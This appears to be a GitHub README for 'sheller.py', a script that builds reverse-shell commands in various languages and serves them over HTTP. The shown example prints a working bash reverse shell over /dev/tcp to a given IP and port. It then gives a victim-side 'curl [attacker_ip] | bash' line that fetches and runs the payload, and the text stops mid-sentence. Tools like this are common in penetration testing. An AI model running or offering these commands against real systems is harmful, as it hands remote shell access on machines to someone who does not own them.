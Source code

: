 # Reverse shell vending machine

This is a VERY simple script that can be used to create your basic reverse-shell commands.

All of this commands can be found online, and several people like [PentestMonkey](https://github.com/pentestmonkey) have made collections of them already. This is another collection, that can be used to insert the local IP and PORT easily.


```
usage: sheller.py [-h] [-l SHELL] [-a LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [-s] [-i INTERFACE] [--httpserver] [--httpport HTTPPORT]

A script to generate reverse shells on various languages and serve them on
http-server.

optional arguments:
  -h, --help           show this help message and exit
  -l SHELL             Language to identify the shell to be built. Use -s to
                       see available shells.
  -a LOCALADDR         Address to connect back to
  -p LOCALPORT         Port to connect back to
  -o OUTFILE           File to write the reverse shell to
  -s                   Print available shells
  -i INTERFACE         Interface name to get ip for reverse shell script
  --httpserver         Server the reverse-shell file on a http server
  --httpport HTTPPORT  Port to start HTTP server in, default 80
  ```
  
  ## Example:

  ```
  sudo python3 sheller.py -l bash -p 8080 --httpserver -i eth4
  ```

  produces:

  ```
  bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
  ```

  and serves it on http-server at all interfaces on port 80 at / http://localhost
  on victim machine:
  ```
  curl [attacker_ip] | bash
  ```

  should run the reverse shell with generated
